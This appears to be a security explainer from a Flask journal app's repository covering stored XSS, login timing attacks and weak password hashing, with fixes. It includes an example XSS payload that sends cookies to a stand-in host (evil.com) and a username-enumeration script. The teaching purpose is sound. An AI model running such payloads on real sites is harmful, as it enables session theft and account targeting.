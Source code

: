 # Security Vulnerabilities Explained

## 1. 🚨 XSS (Cross-Site Scripting) Vulnerability

### What is XSS?
XSS allows attackers to inject malicious scripts into web pages viewed by other users. It's like leaving your front door open and letting strangers put their stuff in your house.

### How it works in our app:
When a user enters `<script>alert("XSS")</script>` in a journal entry, it gets stored and then displayed to them later WITHOUT being escaped. The browser sees the `<script>` tags and executes the JavaScript!

### Real-world impact:
- **Session hijacking**: Steal user cookies/tokens
- **Keylogging**: Record everything a user types
- **Phishing**: Redirect users to malicious sites
- **Data theft**: Access sensitive information

### Example attack:
```javascript
// User enters this in journal content:
<script>
  // Steal session cookie
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie})
  });
</script>
```

### The fix:
Flask's Jinja2 templates auto-escape by default, but we need to ensure we're not bypassing it:

```python
# BAD - Marks content as safe without escaping
{{ content|safe }}

# GOOD - Auto-escapes dangerous characters
{{ content }}

# GOOD - Explicit escaping
{{ content|e }}
```

## 2. ⏱️ Timing Attack Vulnerability

### What is a Timing Attack?
Timing attacks exploit the time differences in operations to gain information. It's like figuring out which apartment someone lives in by seeing which doorbell takes longer to answer.

### How it works in our app:
```python
# Current vulnerable code (simplified):
def verify_user(username, password):
    users = get_users()
    
    if username not in users:
        return False  # FAST return - user doesn't exist
    
    # This takes time to compute
    return check_password_hash(users[username]["password_hash"], password)
```

The problem:
- Invalid username: Returns immediately (fast)
- Valid username: Takes time to hash and compare password (slow)
- Attackers can measure this difference to enumerate valid usernames!

### Real-world impact:
- **Username enumeration**: Find valid usernames
- **Targeted attacks**: Focus on known valid accounts
- **Social engineering**: Use valid usernames for phishing

### Example attack:
```python
import time
import requests

usernames = ['admin', 'user1', 'alice', 'bob']
for username in usernames:
    start = time.time()
    requests.post('/login', data={'username': username, 'password': 'wrong'})
    elapsed = time.time() - start
    
    if elapsed > 0.1:  # Threshold
        print(f"Found valid username: {username}")
```

### The fix:
Always perform the same operations regardless of username validity:

```python
def verify_user_secure(username, password):
    users = get_users()
    
    # Always fetch a user (real or dummy)
    if username in users:
        user_hash = users[username]["password_hash"]
    else:
        # Use a dummy hash to ensure same computation time
        user_hash = generate_password_hash("dummy")
    
    # Always perform the hash check
    is_valid = check_password_hash(user_hash, password)
    
    # Only return True if user exists AND password matches
    return username in users and is_valid
```

## 3. 🔐 Password Hash Format Vulnerability

### What is this vulnerability?
Our tests expect passwords to be hashed with bcrypt (`$2b$` prefix), but the actual implementation might be using a different, potentially weaker hashing algorithm.

### Why it matters:
Different hash algorithms have different security levels:
- **MD5**: Broken, can be cracked in seconds
- **SHA1**: Deprecated, vulnerable to collisions
- **SHA256**: Better but still fast (bad for passwords)
- **bcrypt**: Designed for passwords, intentionally slow
- **Argon2**: Modern gold standard

### How password hashing should work:
```python
# GOOD - Using bcrypt
from werkzeug.security import generate_password_hash, check_password_hash

# This creates a bcrypt hash by default in newer versions
password_hash = generate_password_hash('mypassword')
# Result: $2b$12$YIh.Rz5dNG.0Q.X...  (bcrypt format)

# BAD - Using fast hashes
import hashlib
password_hash = hashlib.sha256('mypassword'.encode()).hexdigest()
# Result: 89e01536ac207...  (no salt, fast to crack)
```

### Real-world impact:
- **Rainbow table attacks**: Pre-computed hash lookups
- **Brute force**: Fast hashes = more guesses per second
- **No salt**: Same password = same hash across users

### The fix:
Ensure we're using bcrypt with proper configuration:

```python
# Configure Flask to use bcrypt
app.config['SECURITY_PASSWORD_HASH'] = 'bcrypt'
app.config['SECURITY_PASSWORD_SALT'] = 'your-salt-here'

# Or explicitly use bcrypt
import bcrypt

def hash_password(password):
    # Generate salt and hash
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode('utf-8'), salt)

def verify_password(password, hash):
    return bcrypt.checkpw(password.encode('utf-8'), hash)
```

## 🛡️ Defense in Depth

Security isn't just about fixing individual vulnerabilities - it's about layers of protection:

1. **Input Validation**: Never trust user input
2. **Output Encoding**: Always escape when displaying
3. **Secure Defaults**: Use proven libraries and configurations
4. **Least Privilege**: Limit what each component can do
5. **Monitoring**: Log and alert on suspicious activity
6. **Regular Updates**: Keep dependencies current

## 🔍 How to Find These Vulnerabilities

### Automated Tools:
```bash
# Static analysis
bandit -r app.py

# Dependency scanning
safety check
pip-audit

# OWASP ZAP for web scanning
# Burp Suite for manual testing
```

### Manual Testing:
1. **XSS**: Try injecting `<script>alert(1)</script>` everywhere
2. **Timing**: Measure login response times
3. **Hashing**: Check stored password format

### Code Review Questions:
- Is user input escaped before display?
- Do operations take constant time?
- Are we using secure, salted password hashing?
- Are we validating all inputs?
- Are we using secure defaults?

Remember: **Security is a journey, not a destination!** 